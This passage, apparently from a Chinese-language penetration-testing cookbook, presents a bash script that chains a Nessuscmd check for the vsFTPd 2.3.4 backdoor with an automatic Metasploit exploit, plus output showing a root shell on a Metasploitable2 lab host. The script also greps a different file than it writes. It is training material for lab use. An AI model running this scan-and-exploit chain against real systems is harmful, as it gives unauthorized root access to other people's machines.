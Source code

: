 上面的输出显示，在完成 Nmap NSE 脚本后，将立即执行 Metasploit exploit 模块并在目标系统上返回一个交互式 Meterpreter shell。

### 工作原理

MSFCLI 是 MSF 控制台的有效替代工具，可用于直接从终端执行单行命令，而不是在交互式控制台中工作。 这使得 MSFCLI 对于 bash shell 脚本中的使用是一个很好的功能。 因为可以从 bash 终端执行 NSE 脚本和 MSFCLI，所以可以轻松编写 shell 脚本来将这两个功能组合在一起。

## 8.4 使用 MSF 漏洞利用的 Nessuscmd 漏洞扫描

将 NSE 脚本和 Metasploit 利用结合到一起可以减轻工作量。可由 NSE 脚本测试的漏洞数量明显小于可通过专用漏洞扫描程序（如 Nessus）评估的漏洞数量。 幸运的是，Nessus 有一个名为 Nessuscmd 的命令行工具，也可以在 bash 中轻松访问。 该秘籍演示了如何将 Nessus 定向漏洞扫描与 MSF 自动利用相结合来验证发现。

### 准备

为了使用此秘籍中演示的脚本，你需要访问运行漏洞服务的系统，该服务可以使用 Nessus 进行标识，并且可以使用 Metasploit 进行利用。 提供的示例在 Metasploitable2 服务器上使用 vsFTPd 2.3.4 后门漏洞。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。

此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本，将漏洞扫描和目标利用的任务结合到一起。 在这种情况下，Nessuscmd 用于运行 Nessus 插件，测试 vsFTPd 2.3.4 后门，以确定系统是否存在漏洞，然后如果发现系统存在漏洞，则对系统执行相应的 Metasploit 漏洞利用：

```
#! /bin/bash 
if [ ! $1 ]; then echo "Usage: #./script <RHOST>"; exit; fi

rhost=$1

/opt/nessus/bin/nessuscmd -p 21 -i 55523 $rhost >> tmp_output.txt 
if [ $(grep 55523 output.txt | cut -d " " -f 9) = "55523" ];    
    then echo "$rhost appears to be vulnerable, exploiting with Metasploit...";   
    msfcli exploit/unix/ftp/vsftpd_234_backdoor PAYLOAD=cmd/unix/ 
    interact RHOST=$rhost E; 
fi 
rm tmp_output.txt 
```

脚本的开头非常类似于漏洞扫描和利用脚本，它将 NSE 扫描与前一个秘籍中的 MSF 利用组合在一起。但是，由于在此特定脚本中使用了不同的载荷，因此用户必须提供的唯一参数是`RHOST`值，该值应该是目标系统的 IP 地址。脚本的正文以执行 Nessuscmd 工具开始。 `-p`参数声明正在评估的远程端口，`-i`参数声明插件号。插件 55523 对应 VSFTPd 2.3.4 后门的 Nessus 审计。 然后，Nessuscmd 的输出重定向到一个名为`tmp_output.txt`的临时输出文件。如果目标系统上存在此漏洞，则此脚本的输出将仅返回插件 ID。所以下一行使用`if ... then`条件语句结合`grep`序列，来确定返回的输出中的插件 ID。如果输出中返回了插件ID，表明系统应该存在漏洞，那么将执行相应的 Metasploit 利用模块。

```
root@KaliLinux:~# ./nessuscmd_xploit.sh 
Usage: #./script <RHOST>
```

如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 此使用描述表示，应使用`RHOST`参数执行脚本，它用于定义目标 IP 地址。 此输入值将用于 Nessuscmd 漏洞扫描和（如果存在漏洞）使用 Metasploit 在目标系统上执行利用。 在以下示例中，脚本用于确定 IP 地址为`172.16.36.135`的主机是否存在漏洞。 如果系统被确定为存在漏洞，则将执行该利用，并自动建立与后门的连接。

```
root@KaliLinux:~# ./nessuscmd_xploit.sh 172.16.36.135 
172.16.36.135 appears to be vulnerable, exploiting with Metasploit... 
[*] Initializing modules... 
PAYLOAD => cmd/unix/interact 
RHOST => 172.16.36.135 
[*] Banner: 220 (vsFTPd 2.3.4) 
[*] USER: 331 Please specify the password. 
[+] Backdoor service has been spawned, handling... 
[+] UID: uid=0(root) gid=0(root) 
[*] Found shell. 
[*] Command shell session 1 opened (172.16.36.232:48126 -> 172.16.36.135:6200) at 2014-04-28 00:29:21 -0400

whoami 
```